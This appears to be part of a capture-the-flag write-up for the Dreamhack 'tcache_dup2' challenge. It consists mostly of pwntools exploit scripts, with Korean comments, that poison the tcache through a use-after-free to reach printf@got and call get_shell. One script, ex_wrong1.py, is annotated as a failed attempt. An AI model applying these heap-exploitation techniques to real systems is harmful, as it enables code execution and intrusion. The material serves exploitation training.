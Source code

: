 ```
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

# `ex_wrong1.py`

```
from pwn import *

p = remote('host3.dreamhack.games', 17171)
e = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> printf@got
# tc_idx = 1
# chunk : ptr[0]
printf_got = e.got['printf']
modify(0, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[1]
create(0x20, b'a')


# 여기서 (tc_idx = 0)이기 때문에, printf@got가 malloc되지 않음
# tcache[0x20] : printf@got
# tc_idx = 0
# chunk : ptr[2]
```